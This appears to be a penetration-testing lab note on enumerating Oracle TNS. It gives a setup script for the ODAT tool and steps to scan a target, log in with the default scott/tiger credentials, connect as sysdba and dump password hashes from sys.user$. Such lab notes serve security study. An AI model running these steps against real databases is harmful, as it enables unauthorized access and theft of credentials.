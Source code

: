 - protocol that facilitates communication between oracle database and applications over networks
- Install these tools using bash script to start to enumerate it:
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome

```

- I installed sqlplus using this: sudo apt install oracle-instantclient-basic oracle-instantclient-sql
- Go to odat folder and run `./oday.py all -s IP_ADDRESS`
- Run :`sqlplus scott/tiger@10.129.204.235/XE` based on the credentials you get from above. The database is XE and scott/tiger is the username/password
- In the sql shell run: `select table_name from all_tables;`
- add `as sysdba` on the previous command to login as sysdba
- run `select name, password from sys.user$;` to get password hashes.